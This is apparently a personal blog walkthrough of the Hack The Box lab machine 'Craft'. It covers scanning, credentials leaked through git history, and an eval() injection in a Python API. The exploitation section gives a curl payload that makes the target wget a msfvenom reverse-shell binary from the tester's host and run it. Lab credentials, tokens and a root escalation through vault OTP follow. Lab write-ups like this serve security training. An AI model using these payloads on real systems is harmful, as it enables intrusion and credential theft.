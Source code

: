 ```yaml
---
title: "[Writeup] Hack The Box: Craft"
date: 2020-03-17T22:03:11+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Hello! It's been ages since I've updated this blog. This is a writeup for "Craft" on HTB that I have written since last November, when it was still up and running. I have totally forgotten about it until today, which I have just found out that it has been retired. It's a few months late, and there are writeups on this box everywhere, but here it is.

{{< img src="/images/htb_craft/craft.png">}}

<!--more-->

**OS:** Linux  
**Difficulty:** Medium  
**Points:** 30  
**Release:** 13 Jul 2019  
**IP:** 10.10.10.110  
**Date Cleared:** 5 Nov 2019

## Information Gathering

### Nmap Scan Result

```
# Nmap 7.70 scan initiated Tue Nov  5 00:31:41 2019 as: nmap -sV -sC -O -oN nmap 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=11/5%OT=22%CT=1%CU=35820%PV=Y%DS=2%DC=I%G=Y%TM=5DC1099
OS:7%P=i686-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%TS=8)SEQ(SP=106
OS:%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=9)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=71
OS:20%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:4DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  5 00:33:11 2019 -- 1 IP address (1 host up) scanned in 89.92 seconds
```

Found a webserver on 443 and ssh on 22.

### Port 443

The webpage itself is using the domain craft.htb, and the page contains links to 'https://api.craft.htb/api/' and 'https://gogs.craft.htb/', therefore; we need to add `10.10.10.110    craft.htb api.craft.htb gogs.craft.htb` to our host file '/etc/hosts'.

{{< img src="/images/htb_craft/443-home.png">}}

#### GOGS

The page 'https://gogs.craft.htb/' is hosting a Git service, in which we could explore and see the contents of the repository.

{{< img src="/images/htb_craft/443-gog-home.png">}}

{{< img src="/images/htb_craft/443-gog-explore.png">}}

Looking through the commit history, the credential 'dinesh:4aUh0A8PbVJxgd' could be found in commit '10e3ba4f0a', and was later deleted in commit 'a2d28ed155'.

{{< img src="/images/htb_craft/443-gog-creds.png">}}

In the Issues page, we found an example of endpoint calling
`curl -H 'X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw' -H "Content-Type: application/json" -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "15.0")}'`, and a warning that the new patch is dangerous.

{{< img src="/images/htb_craft/443-gog-issue.png">}}

In the latest commit, a "patch" was commited, adding 'eval()' function to the brew endpoint which would process the user's input, so we could use this endpoint to execute system commands.

{{< img src="/images/htb_craft/443-gog-eval.png">}}

#### API

The page 'https://api.craft.htb/api/' is a swagger page showing the API documentation.

{{< img src="/images/htb_craft/443-api-home.png">}}

Using the credential found in the git repository, a valid token could be generated using /auth/login API.

```
"token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcyOTM2NjM2fQ.p06PEETfQsCMYcrOVk0Mo1gff4WhqbzQrFef2wZzh64"
```

{{< img src="/images/htb_craft/443-api-token.png">}}

## Exploitation

Our goal is to gain a remote shell connection, we could do it by running a python command `__import__("os").system("cd /tmp; wget 10.10.14.162/revshell; chmod +x /tmp/revshell; /tmp/revshell")` to upload a reverse shell binary generated with msfvenom (`msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.162 LPORT= 443 -f elf -o revshell`) using Python SimpleHTTPServer and create a connection back to us.

Using the API calling template we got, we can modify the token and abv parameter as follows:

```
curl -H 'X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcyOTM4ODkzfQ.TG6NcTG7evwYOyi0x70PiHYEqs7Psyizfim5p_YyvGc' -H 'Content-Type: application/json' -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "__import__(\"os\").system(\"cd /tmp; wget 10.10.14.162/revshell; chmod +x /tmp/revshell; /tmp/revshell\") #"}'
```

Using a handler, we got a reverse shell connection as root; however, after a bit of digging, it seems like we were inside a Docker container.

{{< img src="/images/htb_craft/handler.png">}}

{{< img src="/images/htb_craft/docker.png">}}

Found some credentials in '/opt/app/craft_api/settings.py'

{{< img src="/images/htb_craft/sh-creds.png">}}

Python was found in '/usr/local/bin', so we can add the directory to path to gain access to more commands using `export PATH=$PATH:/usr/local/bin`.

Found 'dbtest.py' in '/opt/app' which we could modify the query and change `cursor.fetchone()` to `cursor.fetchall()` to dump the content of the database.

Query: 'show databases'

{{< img src="/images/htb_craft/dbs.png">}}

Query: 'show tables'

{{< img src="/images/htb_craft/tables.png">}}

Query: 'select * from user'

{{< img src="/images/htb_craft/user.png">}}

We found multiple credentials which are:

```
dinesh:4aUh0A8PbVJxgd
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

Using the credential 'gilfoyle:ZEU3N8WNM2rh4T', we could log into GOG and see the private repository named 'craft-intra'.

{{< img src="/images/htb_craft/443-gog-private.png">}}

In the repository, a private key and public key pair could be found.

{{< img src="/images/htb_craft/443-gog-key.png">}}

๊Using the private key, we can ssh to the target with the credential 'gilfoyle:ZEU3N8WNM2rh4T'

{{< img src="/images/htb_craft/ssh.png">}}

Got the user flag.

{{< img src="/images/htb_craft/proof-user-blur.png">}}

## Privilege Escalation

From the GGO, there is a vault configuration file, enabling ssh secret with the role 'root_opt' that has root permission.

{{< img src="/images/htb_craft/vault-secret.png">}}

Using `vault ssh -role root_otp -mode otp root@127.0.0.1`, we could ssh to the target server itself and gain root with vault OTP.

{{< img src="/images/htb_craft/root.png">}}

OWNED!

{{< img src="/images/htb_craft/proof-root-blur.png">}}